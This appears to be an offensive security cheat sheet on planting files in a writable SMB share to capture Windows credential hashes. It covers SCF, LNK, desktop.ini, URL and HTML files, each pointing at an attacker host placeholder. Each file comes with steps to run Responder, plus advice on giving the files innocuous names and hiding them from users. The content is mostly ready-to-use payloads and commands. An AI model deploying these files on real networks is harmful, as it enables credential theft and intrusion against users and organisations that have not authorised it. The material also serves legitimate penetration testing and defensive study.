 # Automatic on folder/share visit I: SCF Files
```
[Shell]
Command=2
IconFile=\\<ATTACKER_IP>\DesktopSettings.config
[Taskbar]
Command=ToggleDesktop
```
1. Put the contents into a non-suspicious file name like `@DesktopSettings.scf`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire responder `responder -I eth0`

# Automatic on folder/share visit II: LNK Files
```powershell
$Output_For_Lnk = "$pwd\Database.lnk"
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut($Output_For_Lnk)
$lnk.TargetPath = "\\<ATTACKER_IP>\@DB"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Database"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
1. Run the PowerShell script, it will save the `.lnk` file in the current working directory
2. Place the file in the writable SMB share (won't work if hidden)
3. Fire responder `responder -I eth0`

# Automatic on folder/share visit III: INI Files Inside System folders
```
[.ShellClassInfo]
IconResource=\\<ATTACKER_IP>\settings
```
1. save the file with the above contents inside a `desktop.ini` file
2. connect to the writable SMB share using `smbclient`
3. create a folder and give it a non-suspicious name using `mkdir`
4. set the folder attribute to be a system folder using `setmode <FOLDER> +s`
5. change int the new folder
6. upload the `desktop.ini` file `put <INI_FILE>`
7. make it a system file using `setmode <INI_FILE> +s`
8. and make it hidden using `setmode <INI_FILE> +h`
9. *overall,* it should like this:
```shell
smbclient> mkdir <FOLDER>
smbclient> setmode <FOLDER> +s
smbclient> cd <FOLDER>
smbclient> put <INI_FILE>
smbclient> setmode <INI_FILE> +s
smbclient> setmode <INI_FILE> +h
```

# Works when *Selected*: URL files
```
[InternetShortcut]
URL=file://<ATTACKER_IP>/@IEsettings
```
1. Put the contents into a non-suspicious file name like `IESettings.url`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire responder `responder -I eth0`

# Must be opened to work: HTML files (tested on IE & Chrome)
```
<img src="\\\\<ATTACKER_IP>\\img">
```
1. Put the contents into a non-suspicious file name like `bookmarks.html`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire responder `responder -I eth0`

### Note
- you can hide any file when in an `smbclient` prompt using `setmode <FILE_NAM> +h`
- you can unhide any file when in an `smbclient` prompt using `setmode <FILE_NAM> -h`